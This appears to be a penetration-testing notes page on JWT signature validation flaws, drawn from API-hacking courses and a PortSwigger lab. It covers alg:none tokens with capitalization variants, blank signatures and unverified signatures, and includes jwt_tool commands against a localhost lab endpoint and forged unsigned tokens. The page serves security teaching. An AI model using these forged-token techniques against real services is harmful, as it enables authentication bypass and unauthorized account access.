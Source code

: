```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Signature Validation

{% hint style="success" %}
JWT **signature validation** involves verifying that the token's signature is legitimate and has not been tampered with. This process uses a cryptographic algorithm and a secret key (or public key, in the case of asymmetric algorithms) to ensure that the token was created by a trusted source and that its content remains unchanged. Proper signature validation prevents attackers from altering the token's claims or creating forged tokens. **Servers** don't store any JWT-related information, thus, they **don't know anything about its contents**!
{% endhint %}

## None Algorithm

{% hint style="success" %}
The **JWT `alg: "none"` attack** exploits the JWT specification allowing `alg: "none"` for tokens without a signature. An attacker creates a token with `alg: "none"` and arbitrary claims. If the server accepts this token without verifying a signature, the attacker gains unauthorized access.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

After obtaining a JWT, we can start by auditing it by using an endpoint which process the token in some way, i.e., sends back different responses if the token is and it isn't present (Figure 1).

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation.png" alt=""><figcaption><p>Figure 1: Finding an appropriate endpoint.</p></figcaption></figure>

The JWT header contains an `alg` parameter which tells the server which algorithm was used to sign the token, i.e., which alogirthm it needs to use when veryfing the signature. **This is inherently flawed as it is user-controlled**. JWTs can be also left unsigned using `"alg":"none"`, aka _**unsecure JWT**_. Servers usually reject this tokens, but since this relies on string parsing, it can be obfuscated.

{% hint style="warning" %}
Even if the token is unsigned, **the payload part must end with a trailing dot**.
{% endhint %}

We can then audit the JWT (Figure 2).

{% code overflow="wrap" %}
```bash
$ jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0X3RjbUBnbWFpbC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxOTI5NjM4OCwiZXhwIjoxNzE5OTAxMTg4fQ.BlO4H5UQM_maTkbRtwBhGags2DSIXxOI-mvUW1A4IRBb0VLshF_xIP74Rm-e1BjhyCKHqIuRp9GKRlse4CgY2CwpiNYbDFrbnYLNvfqzOoc1VRs-sUbhpq24h4mIZK1OJ3Jktd3fwMWEd1MolUFtO8WgaI0NVXwdi0jStFVXbnwZ0MU-HzOW7sK1aUCBuI6hAqrsZMf0iXYl5qhjGIDQ8VLcOPAhdr4-Yf-S4B2dhxjx2dxFZYZHvZAeZ4FHEkJa-IlDCeE_OmIKyQKF_03CRmKB0KHrX5TBxgitzDraSgoeKjeI-E8Zz7cchxK53otrD0tKbNEHC_N2p1cGrts_BQ' -M at
```
{% endcode %}

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_1.png" alt=""><figcaption><p>Figure 2: Auditing the JWT using <code>jwt_tool</code>.</p></figcaption></figure>

We could then use Burp's [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension to validate the `alg:none` vulnerability (Figure 3 & 4).

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_2.png" alt=""><figcaption><p>Figure 3: Validating the <code>alg:none</code> attack.</p></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_3.png" alt=""><figcaption><p>Figure 4: The server sends a <code>200</code> without validating the JWT signature (BOLA).</p></figcaption></figure>

We also have the option to choose different capitalization of the `none` algorithm (Figure 5).

<figure><img src="../../../../../../.gitbook/assets/web_jwts_none_attack_2.png" alt=""><figcaption><p>Figure 5: Capitalization options for the <code>none</code> algorithm.</p></figcaption></figure>

## Blank Signature

{% hint style="success" %}
The **JWT blank signature** attack involves removing or leaving the signature part of a JWT blank. If the server does not properly validate the signature's presence and integrity, it accepts the manipulated token.
{% endhint %}

> _The below example is based on APISEC University's course_ [_API Penetration Testing_](https://www.apisecuniversity.com/courses/api-penetration-testing)_._

We can generate a token without a signature and see how the server responds.

{% code overflow="wrap" %}
```bash
$ jwt_tool.py <JWT> -X a

Original JWT:

jwttool_a7333a823ae2439cb9a1f625cf57874a - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_ba16d4490898e1a275865d6054d29218 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_933d31b931b0cde418923bd086cb24b8 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_779c72e9bb024b8feebb000aaf8f8b96 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.

# Copy this token to a request and see how it responds
```
{% endcode %}

## Arbitraty Signature

{% hint style="success" %}
The **JWT arbitrary signature** attack involves an attacker creating a token with a valid header and payload but using an arbitrary or invalid signature. If the server does not correctly verify the token's signature against the proper secret or public key, it may accept the manipulated token.
{% endhint %}

> _The below example is based on PortSwigger's_ [_JWT authentication bypass via unverified signature_](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature) _lab._

JWT libraries usually provide 2 methods, one for verification and one for decoding. For example, Node.js's `jsonwebtoken` library has the `verify()` and `decode()` methods. If a developer only use the latter, the application won't verify the signature at all. In this case, it is possible to modify a claim directly (Figure 6).

<figure><img src="../../../../../../.gitbook/assets/jwt_arbitraty_sign.png" alt=""><figcaption><p>Figure 6: Modifying the <code>sub</code> claim results in an altered signature which is accepted by the server.</p></figcaption></figure>
